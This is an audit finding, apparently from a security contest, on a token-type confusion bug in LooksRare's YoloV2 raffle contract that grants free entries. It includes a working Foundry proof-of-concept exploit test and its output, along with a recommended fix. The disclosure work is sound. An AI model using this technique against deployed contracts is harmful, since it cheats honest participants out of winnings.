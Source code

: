 Amateur Cloth Whale

high

# User can get free entries if the price of any whitelisted ERC20 token is greater than the round's `valuePerEntry`

## Summary
Lack of explicit separation between ERC20 and ERC721 deposits allows users to gain free entries for any round given there exists a whitelisted ERC20 token with price greater than the round's `valuePerEntry`.

## Vulnerability Detail
When depositing tokens, users can specify whether the token type is ERC20 or ERC721. While the token address specified is checked against a whitelist, the token type specified is unrestricted.
https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L1092-L1094
```solidity
                if (isCurrencyAllowed[tokenAddress] != 1) {
                    revert InvalidCollection();
                }
```
This means a user can specify ERC721 as the token type even if the token being deposited is an ERC20 token. 
A deposit of this nature does not need signed Reservoir price data if the price is already specified (ie. the token was deposited before as an ERC20 token).
https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L1096-L1100
```solidity
                if (singleDeposit.tokenType == YoloV2__TokenType.ERC721) {
                    if (price == 0) {
                        price = _getReservoirPrice(singleDeposit);
                        prices[tokenAddress][roundId] = price;
                    }
```
As long as the price of the token is greater than `round.valuePerEntry`, the `entriesCount` will be non-zero. At the time of writing, using the `0.01 ETH` value used on the currently deployed Yolo contract, this is around USD$25.
https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L1102-L1105
```solidity
                    uint256 entriesCount = price / round.valuePerEntry;
                    if (entriesCount == 0) {
                        revert InvalidValue();
                    }
```
The user can specify an arbitrary length array for `singleDeposit.tokenIdsOrAmounts` filled with zeros (given this doesn't exceed the max deposit limit). This is what allows free entries by specifying zero transfers.
When the token is batch transferred by the transfer manager, a low level call to `transferFrom` on the specified token address is made.
https://github.com/LooksRare/contracts-transfer-manager/blob/9c337db4b9a8a197353393e98e9120b69e8d1fc6/contracts/TransferManager.sol#L205-L210
```solidity
            } else if (tokenType == TokenType.ERC721) {
                for (uint256 j; j < itemIdsLengthForSingleCollection; ) {
                    ...
                    _executeERC721TransferFrom(items[i].tokenAddress, from, to, itemIds[j]);
```
https://github.com/LooksRare/contracts-libs/blob/a6dbdc6a546fc80bcc3a18884ea3e5224cdc0547/contracts/lowLevelCallers/LowLevelERC721Transfer.sol#L24-L34
```solidity
    function _executeERC721TransferFrom(address collection, address from, address to, uint256 tokenId) internal {
        ...
        (bool status, ) = collection.call(abi.encodeCall(IERC721.transferFrom, (from, to, tokenId)));
        ...
    }
```
The function signature of `transferFrom` for ERC721 and ERC20 is identical, so this will call `transferFrom` on the ERC20 contract with `amount = 0` (since 'token ids' specified in `singleDeposit.tokenIdsOrAmounts` are all `0`). Consequently, the user pays nothing and the transaction executes successfully (as long as the ERC20 token does not revert on zero transfers).

Paste the test below into `Yolo.deposit.t.sol` with `forge-std/console.sol` imported. It demonstrates a user making 3 free deposits (in the same transaction) using the MKR token (ie. with zero MKR balance). The token used can be substituted with any token with price > `valuePerEntry = 0.01 ETH` (which is non-rebasing/non-taxable and has sufficient liquidity in their /ETH Uniswap v3 pool as specified in the README).

<details>
<summary>PoC</summary>

```solidity
function test_freeDeposit() public {
        // setup MKR token
        address MKR = 0x9f8F72aA9304c8B593d555F12eF6589cC3A579A2;

        vm.prank(owner);
        priceOracle.addOracle(MKR, 3000);

        address[] memory currencies = new address[](1);
        currencies[0] = MKR;
        vm.prank(operator);
        yolo.updateCurrenciesStatus(currencies, true);

        uint256 mkrAmt = 1 ether;

        // deposit MKR to ensure price is already set for the round
        // this could be made by the same user making the free deposits with minimal token amount
        deal(MKR, user4, mkrAmt);

        IYoloV2.DepositCalldata[] memory dcd = new IYoloV2.DepositCalldata[](1);
        dcd = new IYoloV2.DepositCalldata[](1);
        dcd[0].tokenType = IYoloV2.YoloV2__TokenType.ERC20;
        dcd[0].tokenAddress = MKR;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = mkrAmt;
        dcd[0].tokenIdsOrAmounts = amounts;

        _grantApprovalsToTransferManager(user4);

        vm.startPrank(user4);
        IERC20(MKR).approve(address(transferManager), mkrAmt);
        yolo.deposit(1, dcd);
        vm.stopPrank();

        // now deposit MKR as ERC721
        // user doesn't need MKR balance to deposit
        assertEq(IERC20(MKR).balanceOf(user5), 0);

        dcd[0].tokenType = IYoloV2.YoloV2__TokenType.ERC721;
        // we can use an arbitrary amount of tokens (so long as we don't exceed max deposits), but we use 3 here
        amounts = new uint256[](3);
        dcd[0].tokenIdsOrAmounts = amounts;
        // we don't need a floor price config if the price has already been set

        _grantApprovalsToTransferManager(user5);

        vm.prank(user5);
        yolo.deposit(1, dcd);

        IYoloV2.Deposit[] memory deposits = _getDeposits(1);

        (, , , , , , , uint256 valuePerEntry, , ) = yolo.getRound(1);
        uint256 mkrPrice = yolo.prices(MKR, 1);
        // last currentEntryIndex should be 4x since first depositor used 1e18 MKR,
        // and the free depositor effectively used 3e18 MKR
        assertEq(deposits[3].currentEntryIndex, (mkrPrice / valuePerEntry) * 4);

        console.log("Standard deposit");
        console.log("Entry index after first deposit: ", deposits[0].currentEntryIndex);
        console.log("Free deposits");
        console.log("Entry index after second deposit: ", deposits[1].currentEntryIndex);
        console.log("Entry index after third deposit: ", deposits[2].currentEntryIndex);
        console.log("Entry index after fourth deposit: ", deposits[3].currentEntryIndex);
    }
```
Output from running the test below.
```shell
Running 1 test for test/foundry/Yolo.deposit.t.sol:Yolo_Deposit_Test
[PASS] test_freeDeposit() (gas: 725484)
Logs:
  Standard deposit
  Entry index after first deposit:  88
  Free deposits
  Entry index after second deposit:  176
  Entry index after third deposit:  264
  Entry index after fourth deposit:  352
```
</details>

## Impact
Users can get an arbitrary number of entries into rounds for free (which should generally allow them to significantly increase their chances of winning). In the case the winner is a free depositor, they will end up with the same profit as if they participated normally since they have to pay the fee over the total value of the deposits (which includes the price of their free deposits). If the winner is an honest depositor, they still have to pay the full fee including the free entries, but they are unable to claim the value for the free entries (since the `tokenId` (or `amount`) is zero). They earn less profit than if everyone had participated honestly.

## Code Snippet
https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L1084-L1161

## Tool used

Manual Review

## Recommendation
Whitelist tokens using both the token address and the token type (ERC20/ERC721).